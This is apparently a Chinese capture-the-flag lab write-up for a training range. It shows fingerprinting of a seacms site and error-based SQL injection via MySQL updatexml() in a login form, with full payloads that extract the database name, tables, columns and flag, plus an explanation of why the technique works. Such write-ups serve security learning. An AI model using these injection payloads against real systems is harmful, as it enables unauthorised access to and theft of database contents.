










（掌控者靶场）
1 | Tips: |

直接扫目录就能得到flag，但这里flag在二级目录里，扫了半天没找到(字典太垃圾了>’’<)


下一步信息搜集
还是这个网站
Tips:
1 | 经过上次的事件，尤里深刻了解到信息收集的重要性，这次他决定利用信息收集轻松搞定个站点…… |

成功找到网站指纹，seacms版本 V1.0.0310，可以指纹信息搜寻对应的漏洞
这样的话就是把cms源码下下来分析，确定后台登录的大致路径，然后扫描目录找后台地址，

其实谷歌语法更快一些


尝试发现有sql注入点，
暴库：
1 | user=1' or updatexml(1,concat(0x7e,(select database()),0x7e),1)#&password=aaaaa&login=yes |

暴表：
1 | user=1' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1)#&password=aaaaa&login=yes |

暴字段
1 | user=1' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name = 'flag'),0x7e),1)#&password=aaaaa&login=yes |

暴数据
1 | user=1' or updatexml(1,concat(0x7e,(select flag from flag),0x7e),1)#&password=aaaaa&login=yes |

补充：
MYSQL updatexml()函数报错注入解析
1 | UPDATEXML (XML_document, XPath_string, new_value); |
PS：高版本的mysql已经修复了该bug
MySQL 5.1.5版本中添加了对XML文档进行查询和修改的函数，分别是ExtractValue()和UpdateXML()，这两个函数的用法基本一样，只不过前一个是查询，第二个是修改
我们要学习的便是mysql里的修改函数即updatexml函数
updatexml函数第二个参数 xml中的位置是可操作的地方，xml文档中修改的字符位置是用 /xxx/xxx/xxx/…这种格式，如果我们写入其他格式，就会报错，并且会返回我们写入的非法格式内容，而这个非法的内容就是我们想要查询的内容。